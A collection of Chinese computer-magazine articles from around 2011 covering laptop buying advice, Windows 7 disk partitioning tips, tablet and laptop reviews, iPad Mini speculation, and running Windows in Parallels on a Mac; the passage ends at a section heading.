对于核芯显卡的高清编码加速，我也用得比较多。因为我经常使用iPad 2在地铁上看电影，可是iPad 2支持的格式非常少，都需要转码才行。使用我每次都使用MediaCoder这个软件来转码，直接在菜单中选择iPad所支持的格式，勾选上“Intel Sandy Bridge”的选项就行了。

有了核芯显卡的加速，每次都能节约至少一半的时间。例如一个5GB的高清影片转码仅需要20多分钟，而用单纯CPU需要一个多小时。（文/小飞）

# 火眼金睛 教你识破低价轻薄本中的猫腻

“预算不超过4000元，要求笔记本一定要轻巧，还要能玩主流的3D游戏！”CFan每天都能收到类似问题的E-Mail。如今的低价轻薄笔记本市场可以用混乱形容：既有屏幕尺寸上的差异，又有硬件平台上的不同。下面，就让CFan为大家剖析一下低价轻薄笔记本市场，相信看完本文后，您也可以挑选出一部最适合自己的轻薄产品了。

首先我们需要理清一些概念：4000元以内我们可以买到的轻薄笔记本基本涵盖两大类，分别是10英寸的“上网本”与11.6英寸的“超轻薄笔记本”。如果你要轻薄更要性能，那么只有“超轻薄笔记本”才能满足你的需求。

| APU平台 | E350 | E240 | C50 |
| :--- | :--- | :--- | :--- |
| 制程 | 45nm | 45nm | 45nm |
| 主频 | 1.6GHz | 1.5GHz | 1.0GHz |
| 核心数量 | 双核 | 单核 | 双核 |
| 二级缓存 | 1MB | 1MB | 1MB |
| TDP | 18W | 18W | 9W |
| 搭配芯片组 | AMD A50M | AMD A50M | AMD A50M |
| 集成显卡 | Radeon HD6310 | Radeon HD6310 | Radeon HD6250 |

> APU是AMD最近推出的一套低功耗解决方案，其最大的特点就是在CPU内部整合了强大的Radeon HD6310显卡。如果你喜欢AMD核心的产品，APU自是首选。但在选购此类产品时，尽量优先挑选搭配E350的产品，3000元以内可考虑E240，2500元以内再考虑C50。

## 为什么不是上网本

上网本采用的是10.1英寸屏幕，分辨率也多为1024×600像素，虽说很容易就能把重量控制在1.3kg以内，但可视面积、扩展性（接口较少）和使用舒适度都会受到影响（无法采用全尺寸键盘）。此外，上网本基本都采用了英特尔Atom处理器，即便现在有了AMD C50 APU的加盟，综合性能依旧不够给力。

| 尼罗河平台 | 速龙II Neo K345 | 速龙II Neo K325 | 速龙II Neo K145 |
| :--- | :--- | :--- | :--- |
| 制程 | 45 nm | 45 nm | 45 nm |
| 主频 | 1.4GHz | 1.3GHz | 1.8GHz |
| 核心数量 | 双核 | 双核 | 单核 |
| 二级缓存 | 2MB | 2MB | 1MB |
| TDP | 12W | 12W | 12W |
| 搭配芯片组 | AMD M880G | AMD M880G | AMD M880G |
| 集成显卡 | Radeon HD 4200 | Radeon HD 4200 | Radeon HD 4200 |

> 尼罗河（Nile）是AMD第三代超轻薄平台，M880G芯片组集成了Radeon HD 4200，可勉强应对主流的3D游戏。选购此类产品时，尽量优先挑选双核芯的K3xx系列，至于单核心的K145则不在考虑范围之内。

## 超轻薄笔记本的优势

反观11.6英寸的超轻薄笔记本，可视面积接近12英寸产品，1366×768像素的分辨率显示也更为细腻。当机身尺寸被拉伸之后，可以配备标准的全尺寸键盘，确保长时间录入文字时手指的舒适度；掌托也有足够的面积可以完全拖住手掌。这也是传统小尺寸上网本产品所无法达到的，内部空间更为宽裕，可以武装起功耗更高的硬件，在性能上进一步接近传统尺寸的笔记本。最关键的是，此类产品的价格很实惠，3500元左右就可以买到配置不错的机器。如果你需要经常带着笔记本外出办公，对产品的性能有着更高的要求，11.6英寸的超轻薄笔记本显然会更适合你。

**小提示：**
为了尽可能缩小体积和减轻重量，11.6英寸笔记本与光驱彻底“断绝”了关系。如果你需要经常读取光盘数据，要么选择更大尺寸的全内置式笔记本，要么再配备一个外置的USB光驱。这类超轻薄笔记本大都支持一键恢复系统，同时也支持从U盘安装的方式，有无光驱其实真的不太重要了。

| 刚果河平台 | 速龙II Neo MV-40 |
| :--- | :--- |
| 制程 | 65nm |
| 主频 | 1.6GHz |
| 核心数量 | 单核 |
| 二级缓存 | 512KB |
| TDP | 15W |
| 搭配芯片组 | AMD M780G |
| 集成显卡 | Radeon HD 3200 |

> 刚果河（Congo）是AMD第二代超轻薄平台，就现在来看65nm制程工艺和Radeon HD 3200显卡的规格都已经落伍，不太值得选择。

| 英特尔CULV平台 | 酷睿 i3-380UM | 奔腾双核 U5600 | 赛扬双核 U3400 | 奔腾双核 SU4100 | 赛扬双核 SU2300 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 制程 | 32nm | 32nm | 32nm | 45nm | 45nm |
| 主频 | 1.33GHz | 1.33GHz | 1.06GHz | 1.30GHz | 1.20GHz |
| 二级缓存 | 3MB | 3MB | 2MB | 2MB | 1MB |
| TDP | 18W | 18W | 18W | 10W | 10W |
| 芯片组 | Intel HM55 | Intel HM55 | Intel HM55 | Intel GS45 | Intel GS45 |
| 集成显卡 | GMA HD | GMA HD | GMA HD | GMA 4500MHD | GMA 4500MHD |

> 如今4000元以内英特尔平台超轻薄笔记本所选用的处理器基本以上表为主，其中45nm的SU4100与SU2300与GS45芯片组搭配，集成的GMA 4500MHD显卡性能一般，而32nm的产品线则开始与HM55组合，集成的GMA HD高清显卡性能有所提升，对高清视频的硬解码也提供了更好的支持。

## 乱花渐欲迷人眼

目前11.6英寸超轻薄笔记本领域的硬件平台比较混乱，可谓是“乱花渐欲迷人眼”，无论英特尔还是AMD，都有数套平台可以与之匹配。下面咱们就来逐一了解：

## 多套组合如何选

简单来说，英特尔平台的优势在于CPU运算性能，即使是主频最低的赛扬双核SU2300也能和1.6GHz的AMD E350打平。而AMD平台的优势则在于游戏性能，英特尔GMA HD高清显卡的性能尚不及Radeon HD 4200，最新APU平台所集成的Radeon HD6310显卡甚至可以运行《星际争霸2》（最低画质）。

我们可以拿价位相似的ThinkPad E10与X120e举例：此价位的E10采用了Intel超低压奔腾双核U5600（1.33GHz）处理器，集成GMA HD显卡；X120e则配备了AMD E350（1.6GHz）处理器，集成Radeon HD6310显卡，分别是ULV与APU平台的代表。就CPU本身的性能而言，别看U5600的主频低，但性能远超E350，如果笔记本偏日常办公应用的话，建议选择搭载U5600的E10。而E350的卖点则在于集成的HD6310显卡，如果你喜欢玩主流3D游戏，X120e在玩游戏时可以带来更流畅的体验。

> **小提示：**
挑选超轻薄笔记本时，除了硬件平台以外，我们更应该关注产品的便携性与续航能力，毕竟这类产品是要经常伴随我们外出使用的，因此在下面的产品推荐中，笔者也将产品的电池容量与重量列了出来，以供大家参考。

# 笔记本分区不合理 让Windows 7自己帮C盘“减负”

打开新买的小李赫然发现整个硬盘只有一个分区，而且随机还没有驱动光盘。将所有数据资料都放在一个分区中肯定是不安全的，但以前常用的分区软件对Windows 7系统的支持又不太好，难道就只能在重装系统时分区，并在官网手动下载海量的驱动吗？很多笔记本在出厂时默认只有1-2个分区，面对动辄数百GB的C盘，确实有些浪费之嫌。其实，Windows 7系统本身已经提供了简单的硬盘切割功能，可以释放C盘多余的空间。如果你觉得自己的笔记本硬盘分区不合理，C盘占据了太多的存储资源，不妨用本文的方法为C盘“减负”。

## 用“压缩卷”帮C盘减负

以笔者新买的ThinkPad E520为例，在开始菜单中先右键点击计算机，依次进入“属性→高级系统设置→系统保护”，关闭C盘的还原功能。重新右键选择计算机点击“管理”菜单，在计算机管理窗口的左侧列表中选择“磁盘管理”，在窗口右侧就会以图文的形式列出当前硬盘的分区状态。E520默认为三个分区，其中包括“Lenovo_Recovery”（用于存放一键还原镜像备份的分区，千万不要删除或破坏，否则一键还原就没了）。“SYSTEM_DRV”（存放系统和驱动文件的分区，也不要碰），而容量高达454.82GB的C盘“Windows7_OS”就是此次“减负”对象了。

鼠标右键选中C盘，在弹出的菜单中选择“压缩卷”。稍后系统会自动计算可压缩的空间，在弹出来的“压缩C”窗口中会列出具体的信息。笔者笔记本硬盘当前C盘容量约为460GB，系统允许我最多可以压缩（切割）出218GB的容量用于建立D盘、E盘等其它分区，总之C盘最低的容量会限定在247GB左右。建议不要修改“输入压缩空间量”的数值，直接点击“压缩”按钮，切割出最大容量即可。从C盘压缩出来的空间会以“未分配”的分区命名，右键选择这个分区并点击“新建简单卷”，根据系统提示就能将这部分空间随意划分成D盘、E盘…等多个硬盘分区了。

## 解除压缩空间的限制

细心的同学肯定已经发现了，为啥这个“压缩卷”的功能只能让我们压缩C盘一半左右的空间？247GB的C盘还是很浪费啊！这是因为笔者买来笔记本，在使用此功能前已经安装了不少软件，硬盘扇区的分配被打乱了，因此才会出现C盘压缩空间受限的问题。如果你想尽可能为C盘“减负”，刚发现笔记本分区不合理时就应该在第一时间使用“压缩卷”功能，其间不要安装任何程序。

世上没有卖后悔药的，如果你和笔者一样，使用压缩卷功能后C盘容量还是太大，不妨尝试笔者接下来所做的方法。关机，重新开机并按住F11键进入系统还原界面，将计算机恢复到出厂状态（不会破坏现有的硬盘分区，只是恢复C盘，其它品牌笔记本请参考说明书确认一键恢复的按钮和功能）。系统恢复后直接重复上文的操作，此时再对C盘进行“压缩卷”操作时你会发现，247GB的空间最多可切割出226GB！不过在Windows 7系统中，C盘容量最好保持在40GB以上，因此笔者选择切割出200GB的空间，余下的空间还是交给C盘管理吧。

怎么样，即使你不会装系统，找不到适合Windows 7的硬盘分区软件，这回也能为C盘“减负”了吧？

# 简单易用 联想乐Pad平板电脑使用体验

在双核平板满天飞的今天，联想乐Pad的配置貌似稍显过时，3499元的官方售价也缺乏足够的吸引力。那么，这款产品到底还值不值得购买呢？如果你也有类似的疑问，不妨听听乐Pad的使用者，读者阿龙的使用体验吧。

## 平板中的重量级选手

联想乐Pad的外观设计属于“圆滑型”，把握的手感不错，可惜760g的分量着实不轻，在地铁里如果没有位子的话，长时间看书或玩游戏对胳膊的肌肉来说无疑是一种挑战。除了音量和电源调节按键外，乐Pad的屏幕边框只有一个具备光学感应的物理按键，向下滑动为“返回”功能，向上滑动可调出“菜单”功能，长按可显示刚才打开的程序，短按则可直接返回主页，利用有限的空间实现了功能的最大化，这一点还是值得肯定的。

## 略显尴尬的硬件配置

如果乐Pad早个半年发布，1.3GHz的高通Snapdragon 8650A处理器足以秒杀一切“xPad”，可惜双核的风暴可能是来得太快了，单核心的CPU拥有再高的主频也是“不给力”。8650A内置Adreno GC205显卡，和HTC单核旗舰Desire HD与索爱游戏手机Xperia Play一致，至少现在还没有它跑不动的高清3D游戏呢。至于某些游戏可能出现无法全屏显示的问题，则是游戏本身的问题，换成其它分辨率高于800×480的平板电脑也一样。此外，乐Pad的数据传输接口采用了和充电一体化的特殊接口，而并非标准Micro-USB，通用性不强。

## 平板化的Android2.2

乐Pad采用了基于Android2.2开发的LeOS2.0系统，虽说是手机系统，但经过二次开发后，在体验上的确更符合平板的使用习惯。LeOS2.0将整个系统界面分为了三个区域，中间为“四叶草”风格的首页，左侧为小工具插件界面，右侧则为应用程序列表界面，图标之间的间距合理，整体感觉非常简洁。按住“四叶草”主界面中间的小圆球，推动它可以改变任意一个小界面的大小，每个小界面最大化后还可以自己进行DIY设置，添加自己常用的程序等。总的来说，乐Pad的系统非常容易上手，但可供用户发挥的空间很小，比如无法调出第三方程序生成的桌面插件、建立文件夹等等，很难打造出个性的主题界面。如果非要和Android 3.0系统对比的话，LeOS2.0更像是增加了四叶草主页，单独小插件页面的iOS系统。好消息是，乐Pad随机预装了丰富的软件，从《植物大战僵尸》、《愤怒的小鸟》、《都市赛车5》，再到《Mobile QQ》、《奇艺视频》、《淘宝HD》，涵盖了常用的游戏和软件，而且全部对1280×800分辨率进行了优化，不必担心兼容性和显示问题。实际上，现在很多Android3.0论坛中的游戏软件资源，用的都是从乐Pad中备份出来的版本。此外，联想乐Pad应该也是目前最容易Root的平板电脑，用“Z4Root”软件就能实现一键破解。Root的好处？百度一下你就知道。

## 便宜一点会更好

刚买了乐Pad不久，苹果iPad2国行版就以3688元的低价开始打劫我了，而接下来的Tegra 2+Android3.0的平板新品价格也都不贵，着实让我懊恼不已。乐Pad虽然在价格和性能上没什么优势，好在系统的易用性尚可，而且现在真正吃硬件资源的游戏和软件并不多，除了一些为Tegra 2定制的游戏以外，目前的高清3D游戏乐Pad都能流畅应对。无论怎么说，乐Pad“生不逢时”的处境已经显露无遗，前面是iPad 2与Tegra 2平板，身后还有一堆千元级平板电脑起哄，3499元的售价也该到调整的时候了，如果可以降到2500元以内，相信会受到更多用户的关注。

| 项目 | 参数 |
| :--- | :--- |
| 屏幕 | 10.1英寸电容触摸屏 |
| 分辨率 | 1280×800像素 |
| 处理器 | 高通8650A (单核1.3GHz) |
| 显卡 | Adreno GC205 |
| 内存 | 1GB |
| 存储 | 16GB/32GB |
| 摄像头 | 前置200万像素 |
| 操作系统 | LeOS2.0 (Android 2.2) |
| 重量 | 760g |

（文/阿龙）

# 系统保留分区惹人厌 如何隐藏Win7中的100MB/200MB分区

阿蒙新买笔记本的硬盘中包含一个100MB的磁盘分区，觉得没用就“手欠”将其格式化了，结果第二天笔记本再开机时却自动进入系统还原界面从而无法正常进入系统，捣鼓了半天无果只能将系统恢复到出厂状态。那么，这100MB的磁盘分区到底是什么用的？如果怕误操作能否将其隐藏吗？

## 隐藏100MB/200MB分区

隐藏100MB/200MB分区其实很简单，以笔者的笔记本为例，存在一个100MB的F盘。先在开始菜单中右键点击计算机，依次进入“管理→计算机管理→磁盘管理”，在磁盘管理界面中再用鼠标右键点击F盘的图标并选择“更改驱动器号和路径”，在弹出来的对话框中点击“删除”按钮（见图1），不用理会确认提示，直接点“是”即可删除F盘的驱动器号（处于隐藏状态），从而完成隐藏该分区的目的。今后在计算机中将不会出现这个100MB/200MB分区（见图2）。如果想恢复只需重复操作一次，为其再赋予一个驱动器号即可。

> 小提示：如何避免出现100M/200M分区 只要用Windows 7安装盘对硬盘进行分区并且安装系统后就会自动生成100M/200M分区。如果不想看到它，可以借助自带分区工具的WinPE启动盘先对硬盘分区，然后再用Windows 7安装盘直接安装系统（不要再分区）即可。





该分区的盘符消失了，计算机中也将不会再显示

# 更小的iPad可能吗

上期健圣曾和大家聊到了Kindle Fire，亚马逊将这款仅售199美元的7英寸平板来狙击iPad所无法涉及的低端领域，面对竞争对手的挑衅，苹果还能hold住吗？俗话说“皇上不急太监急”，人家苹果自己还没表态呢，网上有关iPad Mini的消息便大肆流传开来了：首先是苹果供应商传出苹果要推iPad Mini的传言，接下来又传出三星和友达都已经将7.85英寸屏幕样品交给苹果的信息，难道更性感更便宜的iPad真的要来了吗？其实早在iPad 1代刚出不久，业内便传出苹果即将推出小尺寸iPad的消息，无奈乔布斯“大神”对7英寸或更小尺寸的平板表现的非常憎恶，因此相关消息曾一度被尘封了起来。如今乔布斯已经不在，而用户对iPad Mini的呼声又已经很高，用于孕育iPad Mini的土壤似乎已经准备就绪，接下来就看苹果的最终答案了。总之，健圣还是非常期待iPad Mini这种小尺寸产品的，假设它真的存在，势必会对国内的平板市场造成深远的影响。iPad Mini除了尺寸更小以外，还被冠以“廉价版iPad”的称号，其销售价格有望控制在200美元以内（传言，健圣可不负责哦），和Kindle Fire持平。反过来再来瞧瞧国内200美元（约1274元人民币）能买到啥？最多也就是联想乐Pad A1之类的单核平板，而类似ACER Iconia Tab A100（Tegra 2方案，2499元起），华为MediaPad（高通MSM8260方案，2788元起）等7英寸双核平板的价格又太高，即便iPad Mini最终价格超过了300美元，也能迫使上述高端双核平板“狂降”迎击，大幅拉高7英寸平板电脑配置的入门标准，让消费者以更低的价格享受到更强悍的性能。和iPhone不同，iPhone在苹果产品线中的任务就是榨取高额利润（iPhone 4S单机利润最高可达500美元以上），而iPad则负责一统平板江湖的任务，用相对合理的售价打压其余品牌的产品，获取最高的市场份额。在10英寸的平板市场，iPad 2的任务已经完成，但在10英寸以下的便携平板市场，苹果目前还无法拿出有效的武器。在其它品牌发力高端7英寸平板市场的今天，苹果确实也有必要通过iPad Mini来一场小尺寸平板的终结战役。从健圣的角度来看，iPad Mini如果确实存在，价格无需定在不靠谱的199美元，哪怕是399美元也足以将其它品牌的类似产品彻底打回原形，出现空前的抢购热潮。但是，如果iPad Mini真的过于实惠，自然也会对苹果自家10英寸的iPad 2产生冲击，因此我们也不要指望iPad Mini可以卖到Kindle Fire的价格。

# 和台式机说拜拜 低价大屏笔记本够给力

小米和同学毕业后就留在了北京打工，几个人合租一套两居室。为了满足日常的办公和娱乐需求，在选购电脑方面犯了难：预算就那么一点，买台式机吧，以后搬家太不方便；选一体机吧，性能也就那么回事，搬家时也算累赘，看来只有将目标锁定便携性相对出色的大尺寸笔记本了。我们住的不是别墅，供电脑“置业”的空间有限；我们也不是金领，口袋里的钱只够选择一款电脑。在这种情况下，具有节能便携（相对而言）、维护方便、性能够用的笔记本自是首选。

## 你的意见是什么

在预算有限只能挑选一部PC的情况下，笔记本、一体电脑和台式机之间你会选择什么呢？欢迎到《电脑爱好者》官方微博投票！参与地址：http://t.cn/a0REDR

## 为什么选择大屏笔记本

DIY攒机基本不具备任何便携性可言，除非你极度热爱游戏，否则绝大多数用户都没有必要选择这类笨重的大家伙。一体电脑虽然拥有更震撼的屏幕，但这个价位的产品通常仅配备了入门级的独立显卡，性能非常一般，很难承担起“娱乐终端”的角色。反观笔记本，5000元级别，15.6英寸高规格的笔记本多到数不过来，你甚至还可以买到17.3英寸超大屏幕的产品，玩《星际争霸2》、《极品飞车15》一类的游戏也毫无压力，已经足以担当家中“唯一一部PC”的重任。

对普通用户而言，15.6英寸的笔记本具备足够广阔的视野和强大的性能，节能省电，合上屏幕就能塞到柜子中，不影响整个家居的美感。此外，对于居无定所的打工族而言，笔记本相对便携的特性也绝不会成为搬家时的负担，租赁的房间再小也不至于摆不下一款笔记本吧？接下来，咱们就来一起了解一下选购大屏笔记本时需要注意的地方。

## 大视野才给力

如今笔记本的屏幕都符合16:9的宽屏规格，15.6英寸或低于这个尺寸的屏幕分辨率通常为标准的1366×768像素。分辨率一致的情况下，15.6英寸屏幕的点距要大于14英寸屏幕，虽然显示效果没有后者细腻，但大点距更适合长时间的观看，特别是在浏览网页或编辑文档这类需要盯着屏幕上的小字时，眼睛不会出现“很累”的感觉。如果你选择了17.3英寸这类超大尺寸的笔记本，除了可以获得更大的视觉面积以外，提升到1600×900像素的分辨率也能带来更震撼的视觉享受。

## 看不见的优点

除了具备更大“面子”的优点外，这类产品还有很多看不到的隐藏优势呢。笔记本主板就这么大，放进大尺寸笔记本体内无疑会“腾出”更宽裕的空间，有利于气流流通从而降低笔记本的发热量，提升系统在高负荷运行下的稳定性。此外，不少17.3英寸的笔记本还预留了第二个硬盘位，如果再购买一个光驱位硬盘托架，最多可以安装3块2.5英寸笔记本硬盘，海量存储不是问题。

## 数字小键盘很实用

屏幕尺寸大了，意味着笔记本键盘区域也被拉伸了，这多出来的空间刚好可以用来安置数字小键盘。如果你需要经常录入身份证号、金钱、产品编号等与数字有关的内容，这个东东可以极大提升工作效率。如果你喜欢玩《魔兽争霸3》，数字小键盘也能帮你打出更好的成绩，魔兽争霸这类游戏中，数字小键盘和英雄的道具栏是对应的，用某个按键使用道具的效率肯定要比用鼠标点击高。需要注意的是，数字小键盘并不是15.6英寸笔记本的“标配”，比如ThinkPad E520带小键盘，而T520系列就没有。

## USB3.0 和 PC卡槽最好有一个

目前8GB的USB3.0优盘已经跌到百元以内了，如果你的笔记本没有这种最新的接口，今后在传输动辄数十GB的数据时会很有“压力”。除了AMD A系列APU原生USB3.0功能以外，其余硬件平台的笔记本都需要额外的第三方芯片才能实现，可惜并不是所有厂商都很大方地为用户准备了这枚芯片。好消息是，目前已经有使用Express卡槽的USB3.0转换卡了，笔记本没有标配USB3.0用这个卡槽也能得以实现。

| 典型配置 | 笔记本 | 一体电脑 | DIY攒机 |
| :--- | :--- | :--- | :--- |
| 屏幕尺寸 | 17.3英寸 | 23英寸 | 24英寸 |
| 分辨率 | 1600×900 | 1920×1080 | 1920×1080 |
| 硬件平台 | 酷睿i5 2410M | 奔腾双核G6950 | 酷睿i3 2100 |
| 显卡 | GT540M | HD6450 | HD6790 |
| 重量 | 3.5kg左右 | 10kg左右 | 10kg以上 |
| 性能等级 | ★★★☆ | ★★☆ | ★★★★★ |
表注：三大类产品5000元左右可以买到的典型配置

## 三大产品类型

### 电脑杀手型

ACER 7750G (2412G75Mnkk)

| 屏幕 | 17.3英寸 |
| :--- | :--- |
| 处理器 | 酷睿i5-2410M（2.3GHz） |
| 内存/硬盘 | 2GB/750GB |
| 显卡/重量 | HD6650M/3.3kg |

想让笔记本完全取代台式机的角色，17.3英寸的超大屏幕肯定是必不可少的元素之一，而只有让SNB平台与高端的显卡组合，才能对得起这么大的面子。当然，如果你就是喜欢超大屏幕，对性能要求不高，3000元左右还可以买到采用奔腾双核P6200和集成显卡的17.3英寸笔记本（如ACER AS7741Z系列）。总之，这种超大尺寸的笔记本非常适合作为家庭影音娱乐终端，特别是视频体验中会给你带来无比的震撼。

ACER 7750G就采用了震撼的17.3英寸屏幕，1600×900像素的高分屏幕显示细腻，在酷睿i5-2410M处理器与AMD HD6550M显卡的组合下，玩游戏看高清都是一种享受。7750G标配USB3.0接口，750GB容量的硬盘在笔记本中也堪称海量，只是2GB内存的容量偏低，如果可以升级到4GB或以上容量，会让整体的运行效果得以进一步提升。

### 类似产品推荐

| 型号 | 基本配置 | 价格 |
| :--- | :--- | :--- |
| 三星 RC720-S02CN | 17.3英寸 + i3-2310M + 4GB + 500GB + GT520M, 2.9kg | 6199元 |
| 华硕 n73YI241SV-SL | 17.3英寸 + i5-2410M + 4GB + 640GB + GT540M, 3.4kg | 6899元 |

### 中流砥柱型

华硕A53XI231SV-SL

| 屏幕 | 15.6英寸 |
| :--- | :--- |
| 处理器 | 酷睿i3-2310M（2.1GHz） |
| 内存/硬盘 | 2GB/320GB |
| 显卡/重量 | GT540M/2.6kg |

在价格相近的情况下，15.6英寸笔记本的配置与14英寸的机型类似，但大屏幕换来的视觉体验与散热方面的先天优势却是后者所无法比拟的。虽然没有17.3英寸产品那无比震撼的超大屏幕，但15.6英寸笔记本却是最适合普通家庭选购的类型，在提供良好视觉体验与性能优势的同时，即便你偶尔会有外出办公的需求，15.6英寸笔记本那2.6kg上下的体重也不会成为负担。

华硕A53XI231SV-SL算是当前低价高配娱乐笔记本的代表之一，别看价格只要4199元，但却配备了酷睿i3-2310M处理器与NVIDIA的GT540M显卡，就性能而言与5000元级别的笔记本看齐。华硕A53掌托部位全部采用了金属材质，在耐磨、抗压方面具有着先天性的优势，在Icecool技术的帮助下，A53最容易发热的腕托部分温度可持续低于人体平均温度。可惜的是A53没有USB3.0接口也没有PC卡插槽，很难享受到高速传输接口的极速体验。

### 类似产品推荐

| 型号 | 基本配置 | 价格 |
| :--- | :--- | :--- |
| ThinkPad E520 (1143-3QC) | 15.6英寸 + i3-2310M + 2GB + 320GB + HD6630M, 2.6kg | 4599元 |
| 戴尔 Inspiron15R | 15.6英寸 + i5-2410M + 2GB + 500GB + GT525M, 2.6kg | 4899元 |

### 低阶入门型

三星RV515 (S01CN)

| 屏幕 | 15.6英寸 |
| :--- | :--- |
| 处理器 | AMD E350（1.6GHz） |
| 内存/硬盘 | 2GB/320GB |
| 显卡/重量 | HD6470/2.4kg |

不是所有用户都需要那么强的性能，如果你青睐于笔记本的节能优势，所需的只是一部能满足普通3D游戏、看高清视频和常规的办公娱乐应用，现阶段搭配AMD E350双核APU的笔记本可以带来更廉价的体验。此外，目前已经出现搭载AMD全新Llano APU的笔记本上市了，比如惠普的G6-1101AX，配备集成6520G显卡的A6-3400M处理器，还能与独立的HD6470M显卡协同合作。只是这类产品刚刚上市，价格还有下调的空间。

三星RV515是一款非常超值产品，同样的15.6英寸大屏幕，只是处理器换成了功耗只有18W的E350，同时还额外武装了HD6470M独立显卡来强化游戏性能，加入了对蓝牙3.0技术的支持，在不到3000元的价格段中具备极高的性价比。

### 类似产品推荐

| 型号 | 基本配置 | 价格 |
| :--- | :--- | :--- |
| 联想 G575GX | 15.6英寸 + E350 + 2GB + 320GB + HD6310, 2.6kg | 3099元 |
| 惠普 G6-1101AX (QC354PA) | 15.6英寸 + A6-3400M + 750GB + 6520G/HD6470M, 2.54kg | 4599元 |

# ACER Aspire 4830TG入手体验

如今笔记本的配置越来越高，但受制于电池技术的制约，高规格笔记本的续航时间始终仅能维持在3小时左右。在同质化现象越加严重的今天，很多厂商都致力于打造性能与续航能力兼得的产品，让笔记本在脱离电源的情况下也能保证“全天候”运行。如果你想选购一款集性能和续航能力于一身的产品，不妨多留意下文中介绍的这款ACER“时睿”系列的4830TG笔记本。

ACER 4830TG拥有精美的外观设计，就做工和性能而言绝不逊色于联想的Y470系列，而且这款产品还配备了超大容量的锂电池，可以连续看6个小时左右的电影，在同尺寸笔记本中应该算是续航能力最出色的产品了。目前笔者购买的15-2410M版本的4830TG市场价格在5500元左右，性价比非常高。

## 续航时间到底有多长

ACER 4830TG采用了和MacBook类似的内置电池设计(6000mAh)，无法自行拆卸更换，好处是容量更大，同时便于产品设计得更为轻薄。缺点同样明显，始终保持在插电状态会影响到电池寿命。笔者特意针对4830TG的电池做了一下测试，在充满电的状态，关闭无线网卡，按下键盘右上角的P键(开启节能模式，强制使用集成显卡)后，连续播放720P的视频时大概可以坚持6个小时左右，而类似配置的笔记本最多只能扛3个小时，可见4830TG的续航能力还是值得肯定的。此外，在4830TG的背部还有一个小孔，如果笔记本死机了可以用曲别针捅一下就能断电关机，个人感觉这个功能还算实用，但ACER要是能为电池单独设计一个开关，通电状态可以关闭电池就更完美了。

## 蓝牙功能有待改进

4830TG标配一组USB3.0接口，并支持关机充电功能，没事可以给手机充电而无需独立的充电器。可惜4830TG的USB接口数量不太对得起14英寸的机身，3个USB接口只能算是勉强够用。为了减轻USB的负担，笔者还特意购买了一款蓝牙鼠标，但随后又发现了一个问题：在开启蓝牙功能时，重启后蓝牙还会保持开启状态，但一旦关机再开机蓝牙就会恢复关闭状态，每次都需要按“Fn+F3”重新开启，我已经升级到了最新的V1.05 BIOS问题依旧，BIOS中也没有找到和蓝牙相关的选项，希望ACER在下一版BIOS中可以加入保存蓝牙状态的功能。 (文/梁子)

# 不用重启 直接在苹果系统中打开Windows软件

给苹果笔记本安装Windows系统，这是让苹果老用户们斥为“2b青年”的做法，因为普通青年和文艺青年都用自带的MAC OS X系统，不过Windows大家都离不开，怎么办呢？使用虚拟机就是很实用的一个方法。

这几年iPhone大受欢迎，连带着苹果的笔记本销量也提升了不少，外形漂亮的MacBook逐渐为越来越多的普通青年熟悉，更为众多文艺青年们的理想装备。苹果笔记本自带的MAC OS X操作系统拥有华丽的用户界面、工作效率高，但很多大家熟悉的Windows软件却没有对应的版本(如各种流行的网游)，或者功能不齐全(如QQ)，同时国内的网上银行都不能在MAC系统中运行，这让习惯网购的青年们十分不爽了。

于是很多用户就“被迫”给苹果笔记本装上了Windows系统，把它当做普通电脑使用。这种做法虽然达到了使用Windows软件的目的，但却完全失去了购买苹果笔记本的意义，除了没法使用独树一帜的MAC OS X操作系统，还有下面一些不便之处：

- 如果使用Windows和MAC OS X双系统，硬盘就必须存在两个系统分区，让原本就不大的硬盘容量更加紧张。
- 两个操作系统之间虽然能互相访问硬盘分区，但只能复制，不能删除或写入文件，十分不便。
- 苹果笔记本的键盘与我们熟悉的键盘有所不同，使用Windows有时会不习惯。
- 原本为MAC OS X系统优化的触控板在Windows中失去了独特的手势控制功能。
- 苹果笔记本在引导Windows启动时会有较长的黑屏时间。
- 苹果笔记本电池续航时间的优势在使用Windows时完全丧失，而且发热量很大。

## 使用 Parallels Desktop 7 创建虚拟机

MacBook笔记本的硬件是专为MAC OS X系统所优化的，用它安装Windows使用还不如买个价格更便宜、硬件配置更强的其他品牌笔记本呢。不过我们已经习惯了的QQ和网上银行这些怎么办？其实可以通过虚拟机来替代。

虚拟机实际是在MAC系统中用软件的方法虚拟出硬件环境来，并在这个环境中运行别的操作系统(例如Windows)。使用时给人的感觉就是Windows系统就像一个普通的软件窗口，运行于MAC系统的桌面上，在这个窗口里可以运用我们熟悉的Windows软件。我们可以方便地在MAC系统中运行Windows软件，而不需要重启进入Windows系统，这就是使用虚拟机最大的好处。

能实现虚拟机的软件有好几种，笔者在这里推荐使用的是Parallels Desktop 7(简称PD7)，相比VMWare Fusion来说PD7的界面和使用方法更简洁，非专业人士也能快速熟悉。www.parallels.com是它的官网，提供14天的免费试用，大家可以下载体验一下再决定是否购买。

PD7的安装方法与普通软件没有区别，安装好之后会弹出向导，教你一步步在虚拟机中安装Windows。在向导第一页我们可以发现除了从光盘中安装，还可以从现有Windows电脑中迁移，也可以安装Ubuntu等Linux系统。你可以插入Windows安装光盘，或者直接使用光盘镜像，PD7能够自动根据光盘判断并设置好硬件参数，然后自动安装，感觉比普通电脑安装系统还方便(当然你也可以在高级选项中自己设置)。

等待自动安装完成之后，我们就会发现熟悉的Windows界面就很神奇地出现在了MAC OS X的桌面上。

## 常见应用测试

用PD7建立的虚拟机看上去和普通Windows差不多，但由于虚拟的过程会有硬件损耗，所以性能要比原生安装的Windows低一些。不过大多数使用中都感觉不出来，最明显的只是3D游戏，几乎没有实用价值。笔者使用的是2010年款MacBook Pro，配备2.66GHz酷睿2处理器和6GB内存，测试结果如下。

系统启动：Windows XP启动只需要几秒钟，Windows 7也只需要十几秒。

网页浏览：与原生Windows几乎没有任何区别，只有在优酷等网站观看高清影片时会有所延迟。

QQ：所有功能正常，打开十几个聊天窗口感觉不到卡顿。

Office办公软件：运行十分流畅。

PPS网络电视：运行流畅，视频和音频没有不同步的现象。

U盘和摄像头：对U盘兼容性非常好，还没有发现不能使用的。笔者的罗技摄像头和笔记本自带摄像头都可以在虚拟机中正常工作。

网上银行：所有国内银行的网银都可以在PD7的虚拟机中正常使用，U盾也能正常工作。

游戏：常见的2D游戏都能正常运行(如连连看、植物大战僵尸等)；但3D游戏就不太实用了，特别是大型3D游戏，大家就不用指望了。

## 特色功能与使用技巧

